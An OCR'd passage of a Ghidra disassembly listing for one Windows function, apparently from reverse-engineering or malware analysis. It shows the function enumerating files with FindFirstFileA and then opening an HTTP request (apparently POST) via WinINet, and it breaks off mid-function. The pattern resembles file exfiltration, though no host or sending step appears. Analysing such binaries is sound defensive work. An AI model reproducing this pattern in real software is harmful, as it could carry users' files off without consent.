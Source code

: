 ```
                             //
                             // .text
                             // ram:00401000-ram:004019ff
                             //
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __stdcall FUN_00401000(void)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined1        Stack[-0x148   local_148                               XREF[1]:     0040100f(*)
                             FUN_00401000                                    XREF[3]:     00400124(*), 004001fc(*),
                                                                                          FUN_00401130:00401185(c)
        00401000 55              PUSH       EBP
        00401001 8b ec           MOV        EBP,ESP
        00401003 83 e4 f8        AND        ESP,0xfffffff8
        00401006 81 ec 44        SUB        ESP,0x144
                 01 00 00
        0040100c 53              PUSH       EBX
        0040100d 56              PUSH       ESI
        0040100e 57              PUSH       EDI
        0040100f 8d 44 24 10     LEA        EAX=>local_148,[ESP + 0x10]
        00401013 8b f1           MOV        ESI,ECX
        00401015 50              PUSH       EAX
        00401016 68 28 21        PUSH       DAT_00402128                                     = 5Ch    \
                 40 00
        0040101b ff 15 00        CALL       dword ptr [->KERNEL32.DLL::FindFirstFileA]       = 00002310
                 20 40 00
        00401021 8b f8           MOV        EDI,EAX
        00401023 c7 44 24        MOV        dword ptr [ESP + 0xc],0x0
                 0c 00 00
                 00 00
        0040102b 85 ff           TEST       EDI,EDI
        0040102d 0f 84 e5        JZ         LAB_00401118
                 00 00 00
        00401033 6a 00           PUSH       0x0
        00401035 68 00 00        PUSH       0x80000000
                 00 80
        0040103a 68 20 30        PUSH       PTR_s_text/html_00403020                         = 004020f0
                 40 00
        0040103f 6a 00           PUSH       0x0
        00401041 6a 00           PUSH       0x0
        00401043 68 fc 20        PUSH       DAT_004020fc                                     = 2Fh    /
                 40 00
        00401048 68 00 21        PUSH       DAT_00402100                                     = 50h    P
                 40 00
        0040104d 56              PUSH       ESI
        0040104e ff 15 b0        CALL       dword ptr [->WININET.DLL::HttpOpenRequestA]      = 0000238a
                 20 40 00
        00401054 6a 00           PUSH       0x0
        00401056 6a 00           PUSH       0x0
        00401058 6a 00           PUSH       0x0
        0040105a 8b f0           MOV        ESI,EAX
        0040105c 6a 00           PUSH       0x0
```